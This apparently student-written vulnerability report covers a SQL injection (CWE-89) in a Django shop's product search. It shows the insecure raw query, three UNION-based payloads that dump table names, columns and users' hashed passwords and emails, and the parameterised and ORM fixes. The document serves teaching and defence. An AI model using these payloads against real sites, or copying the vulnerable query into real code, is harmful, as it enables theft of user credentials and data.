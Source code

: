 # CWE-89: SQL Injection

**Severity**: 6.1

**CVSS Vector String**: AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

### Description

The online shop's search functionality is susceptible to SQL injection attacks, as indicated by CWE-89. SQL injection occurs when untrusted input is directly incorporated into SQL queries without proper validation.

By using the raw method to perform SQL queries and using the % operator to perform string formatting directly into the query code without input sanitization we are exposing the websites to SQL Injection attacks.

```python
# Insecure sql query:
products = Product.objects.raw("SELECT * FROM shop_product WHERE shop_product.title LIKE '%%%s%%'" % query)
```

### Exploitation

To exploit this vulnerability, an attacker can manipulate the search input to include SQL code that alters the behavior of the query.

By just inserting the character **'** in the search input box an attacker can confirm the existence of SQL Injection in the form. 

Then, the attacker might manipulate the search query to display sensitive data, such as database table names or even private login information, such as e-mail and an hashed password.

```
// Get table names
' UNION  SELECT null, 1, null, null, name, null, null, null, null FROM sqlite_master WHERE type='table' -- //

// Get column names for table 'accounts_user'
' UNION  SELECT cid, 'something', name, null, type, pk , dflt_value, null, null FROM pragma_table_info('accounts_user') -- //

// Get hashed passwords from users
' UNION  SELECT null, 'something', password , full_name, email, null, null, null, null FROM accounts_user -- //
```

### Mitigations

We can use the raw method and still prevent SQL Injection attacks by passing the parameters to the method using the params argument instead of manually performing a string format. 

```python
products = Product.objects.raw('SELECT * FROM shop_product WHERE shop_product.title LIKE %s', ['%' + query + '%'])
```

As previously mentioned Django has its own Object Relational Mapper which allows the programmer to interact with the SQL database using classes and object oriented programming. If the queries we need to formulate aren't too complex we should prioritize **Django ORM** queries. We should always use that instead of raw SQL queries, since frameworks often work as safeguards for devs, who can easily make security mistakes.

```python
# Secure Django ORM sql query:
products = Product.objects.filter(title__icontains=query)
```

If we use raw SQL queries and don't use the params argument we have to manually sanitize the user input properly to prevent those attacks.

### Demonstration

This section will have video footage of *exploiting the vulnerabilities* and *trying to exploit them after they've been fixed*:

#### Exploiting Vulnerability

- An attacker inputs the following strings into the *Search* box for products:
```
// Get table names
' UNION  SELECT null, 1, null, null, name, null, null, null, null FROM sqlite_master WHERE type='table' -- //

// Get column names for table 'accounts_user'
' UNION  SELECT cid, 'something', name, null, type, pk , dflt_value, null, null FROM pragma_table_info('accounts_user') -- //

// Get hashed passwords from users
' UNION  SELECT null, 'something', password , full_name, email, null, null, null, null FROM accounts_user -- //
```

The cards destined for products will now show previleged information the attacker should not have access to, such as hashed passwords and table names.

https://github.com/detiuaveiro/1st-project-group_04/assets/97046574/3501f016-0f8b-4e79-b971-b3042ad3ec37

#### Trying to exploit after fix is implemented

- An attacker tries to use a malicious string to get table names but fails.

https://github.com/detiuaveiro/1st-project-group_04/assets/97046574/03662e17-787b-48cb-9684-3f56e509f636

